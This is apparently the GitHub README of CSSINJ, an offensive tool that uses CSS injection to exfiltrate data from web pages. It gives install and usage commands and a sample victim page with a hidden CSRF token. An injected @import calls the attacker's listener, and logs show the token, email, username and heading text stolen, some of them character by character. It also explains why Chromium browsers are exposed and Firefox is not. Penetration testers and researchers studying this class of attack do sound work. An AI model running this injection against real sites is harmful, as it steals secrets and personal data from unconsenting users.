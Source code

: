 ```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ** from Source, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade build
python3 -m build
python3 -m pip install .
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 -m cssinj [-h] -H HOSTNAME -p PORT [-e ELEMENT] [-a ATTRIBUT] [-d] [-m {recusive,font-face}]
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-e, --element`        | HTML element to extract specific data       |
| `-a, --attribut`       | Specify an element Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |
| `-m, --method`        | Specify the type of exfiltration (recusive or font-face) |
| `-o, --output`        | File to store the exfiltrated data in JSON format |

### Example  

#### Victim's View :
```html
<h1>Welcome on my page !</h1>
<input type="text" id="username" value="admin" disabled>
<input type="email" id="email" value="admin@admin.XX" disabled>
<input type="text" class="csrf" value="MySecretAdminToken" hidden>
<img src="XXXXXXXXXXX.XX">
...
```

<style>
  @import url('//localhost:5005/start');
</style>
...
```

#### Recursive attack
###### Using a specific HTML identifier : 

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : admin@admin.XX
[2025-03-11 03:06:49] ✅ [1] - The value exfiltrated from input is : admin
```

###### Using a specific CSS attribute selector and a generic HTML identifier:

```bash
~ python3 CSSINJ.py -H 127.0.0.1 -p 5005 -e * -a src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The src exfiltrated from * is : XXXXXXXXXXX.XX
```

#### Font-face attack
```bash
~ python3 -m cssinj -H 127.0.0.1 -p 5005 -e h1 --method font-face
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-05-21 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-05-21 03:06:49] 🌐 Connection from 127.0.0.1
[2025-05-21 03:06:49] ⚙️ ID : 1
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 :  
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : e
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : W
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : l
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : c
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : o
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : m
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : n
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : y
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : p
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : a
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : g
[2025-05-21 03:06:49] 🔎 [1] - Exfiltrating element 0 : !
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- General : 
  - [ ] Add error Handler
    - [ ] File error Handler
  - [ ] Add test
  - [ ] Edit Terminal

- Injection : 
  - [x] Add injection parameters
  - [ ] Add an option to save results to a file
  - [ ] Allow multiple CSS selectors for simultaneous extraction
  - [ ] Add g all of the page
  - [x] Refract cssinjector.py
  - [ ] Add timeout


## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.
